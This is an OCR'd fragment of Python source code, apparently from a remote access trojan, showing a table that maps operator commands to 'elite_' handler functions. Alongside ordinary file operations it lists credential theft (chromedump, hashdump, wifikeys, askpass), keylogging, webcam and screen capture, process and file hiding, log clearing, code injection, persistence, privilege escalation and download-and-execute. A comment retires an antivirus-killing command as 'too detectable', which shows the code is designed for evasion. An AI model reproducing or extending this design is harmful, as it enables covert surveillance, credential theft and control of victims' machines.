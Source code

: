 ```python
            elite_shell, elite_firewall, elite_ssh, elite_sudo, elite_rootkit,
            elite_unrootkit, elite_dns, elite_avkill, elite_chromepasswords,
            elite_inject, elite_migrate, elite_persistence, elite_unpersistence,
            elite_escalate, elite_download_exec, elite_upload_exec,
            elite_port_forward, elite_socks_proxy
        )
        
        # Map command names to handlers
        self.commands = {
            'ls': elite_ls,
            'cd': elite_cd,
            'pwd': elite_pwd,
            'cat': elite_cat,
            'download': elite_download,
            'upload': elite_upload,
            'rm': elite_rm,
            'mkdir': elite_mkdir,
            'rmdir': elite_rmdir,
            'mv': elite_mv,
            'cp': elite_cp,
            'systeminfo': elite_systeminfo,
            'whoami': elite_whoami,
            'hostname': elite_hostname,
            'username': elite_username,
            'privileges': elite_privileges,
            'network': elite_network,
            'processes': elite_processes,
            'vmscan': elite_vmscan,
            'installedsoftware': elite_installedsoftware,
            'hidecmd': elite_hidecmd,
            'unhidecmd': elite_unhidecmd,
            'hideprocess': elite_hideprocess,
            'unhideprocess': elite_unhideprocess,
            'hidefile': elite_hidefile,
            'unhidefile': elite_unhidefile,
            'hidereg': elite_hidereg,
            'unhidereg': elite_unhidereg,
            'chromedump': elite_chromedump,
            'hashdump': elite_hashdump,
            'wifikeys': elite_wifikeys,
            'askpass': elite_askpass,
            'ps': elite_ps,
            'kill': elite_kill,
            'shutdown': elite_shutdown,
            'restart': elite_restart,
            'screenshot': elite_screenshot,
            'screenrec': elite_screenrec,
            'webcam': elite_webcam,
            'keylogger': elite_keylogger,
            'stopkeylogger': elite_stopkeylogger,
            'viewlogs': elite_viewlogs,
            'clearlogs': elite_clearlogs,
            'shell': elite_shell,
            'firewall': elite_firewall,
            'ssh': elite_ssh,
            'sudo': elite_sudo,
            # Deprecated commands (return error)
            'rootkit': lambda: {"error": "Deprecated - use persistence instead"},
            'unrootkit': lambda: {"error": "Deprecated - use unpersistence instead"},
            'avkill': lambda: {"error": "Deprecated - too detectable"},
            'dns': elite_dns,
            'chromepasswords': elite_chromepasswords,
            'inject': elite_inject,
```